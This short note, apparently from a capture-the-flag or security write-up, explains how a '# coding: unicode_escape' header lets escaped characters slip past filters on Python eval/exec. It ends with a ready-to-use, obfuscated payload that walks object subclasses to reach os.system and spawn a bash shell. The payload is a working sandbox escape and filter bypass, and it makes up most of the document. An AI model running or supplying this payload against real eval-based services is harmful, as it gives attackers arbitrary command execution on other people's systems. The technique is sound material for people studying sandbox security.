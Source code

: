 If a python file starts with `# coding: utf8`, it will use that encoding. `unicode_escape` is a valid encoding.
https://docs.python.org/3/library/codecs.html
https://www.python.org/dev/peps/pep-0263/

And eval/exec are files.

EBDIC encodings will not work, since the comment itself will be converted then executed if ran in `eval/exec`, but not in a normal file.

A carriage return will allow multiple lines of input in the eval, since comments must be in their own line.

```
#coding:unicode_escape\r\u000a[x for x in \u0028\u0029\u002e__class__\u002e__base__\u002e__subclasses__\u0028\u0029 if x\u002e__name__ \u003d\u003d "_wrap_close"][0]\u002eclose\u002e__globals__["system"]\u0028"bash"\u0029
```
